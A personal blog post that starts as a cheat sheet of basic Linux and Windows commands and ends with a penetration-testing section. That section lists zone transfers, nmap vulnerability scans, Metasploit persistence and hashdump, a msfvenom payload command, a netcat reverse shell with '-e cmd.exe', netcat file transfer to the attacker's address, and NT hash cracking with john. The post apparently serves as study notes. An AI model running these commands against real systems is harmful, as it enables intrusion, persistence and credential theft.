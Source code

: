 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
	<strong>
		<li><code>C:\&gt; &lt;command&gt; /? </code></li>
		<li><code>root@kl~# &lt;command&gt; -h </code></li>
		<li><code>root@kl~# &lt;command&gt; --help </code></li>
		<li><code>root@kl~# man &lt;command&gt; </code></li>
		<li><code>root@kl~# apropos </code></li>
		<li><code>root@kl~# history </code></li>
		<li><code>root@kl~# hostname</code></li>
		<li><code>root@kl~# sudo </code></li>
		<li><code>root@kl~# whoami </code></li>
	</strong>
			<ul>
				<li>(print current user id and name)</li>	
			</ul>
	<strong>
		<li><code>root@kl~# date </code></li> 
		<li><code>C:\>  chdir </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pwd </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
	<strong>
		<li><code>root@kl~# jobs </code></li>
	</strong>
			<ul>
				<li>(list cronjobs)</li>
			</ul>
	<strong>
		<li><code>root@kl~# kill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pkill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>	
		<li><code> root@kl~# ps –aef </code></li>
	</strong>
			<ul>
				<li>(list processes status)</li>
			</ul>
	<strong>
		<li><code>C:\ tasklist </code></li>
	</strong>
</ul>

<h2>Files</h2>
<ul>
	<strong>
		<li><code>root@kl~# cp &lt;src&gt; &lt;dst&gt; </code></li>
	</strong>
			<ul>		
				<li>(copy)</li>
			</ul>
	<strong>
		<li><code>C:\> copy  &lt;src&gt; &lt;dst&gt; </code></li>
		<li><code>root@kl~# clear </code></li>
		<li><code>C:\> cls </code></li>
		<li><code>C:\> dir </code></li>
		<li><code>root@kl~# echo &lt;message&gt; </code></li>
	</strong>
			<ul>
				<li>(print to screen)</li>
			</ul>		
	<strong>
		<li><code>root@kl~# find –iname &lt;file&gt; </code></li>
		<li><code>C:\> findstr /i /s &lt;string&gt; *.txt </code></li>
	</strong>
			<ul>
				<li>(like grep for Windows)</li>
			</ul>
	<strong>
		<li><code>root@kl~# file </code></li>
	</strong>
			<ul>
				<li>(determine file type)</li>
			</ul>
	<strong>
		<li><code>C:\> dir \ &lt;file&gt; /b /s </code></li>
		<li><code>root@kl~# grep </code></li>
	</strong>
			<ul>
				<li>(search files for matching text)</li>
			</ul>
	<strong>
			<li><code>root@kl~# gzip </code></li>
	</strong>
			<ul>
				<li>(compress or decompress files)</li>
			</ul>
	<strong>
		<li><code>root@kl~# less </code></li>
	</strong>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul
	<strong>
		<li><code>root@kl~# locate </code></li>
		<li><code>root@kl~# ls </code></li>
		<li><code>root@kl~# mkdir </code></li>
	</strong>
			<ul>
				<li>(new directory)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# mv &lt;src&gt; &lt;dst&gt; </code></li>
	</strong>
			<ul>
				<li>(move/rename a file)</li>
			</ul>
	<strong>
		<li><code>C:\>  move &lt;src&gt; &lt;dst&gt; </code></li>
		<li><code>root@kl~# rm </code></li> 
	</strong>
			<ul>
				<li>(remove files)</li>
			</ul>	
	<strong>
		<li><code>C:\> ren </code></li>
	</strong>
			<ul>
				<li>(renames file)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# umask </code></li>
	</strong>
			<ul>
				<li>(users file creation mask)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# uniq </code></li>
	</strong>
			<ul>
				<li>(uniquify files)</li>
			</ul>
	<strong>
		<li><code>root@kl~# vi/vim </code></li>
	</strong>
			<ul>
				<li>(the best text editor)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# wc </code></li>
	</strong>
			<ul>
				<li>(print byte, word and line counts)</li>
			</ul>	
	<strong>
		<li><code>root@kl~# whereis </code></li>
	</strong>
			<ul>
				<li>(search $path, man pages and source files for program)</li>
			</ul>	
</ul>
		
<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
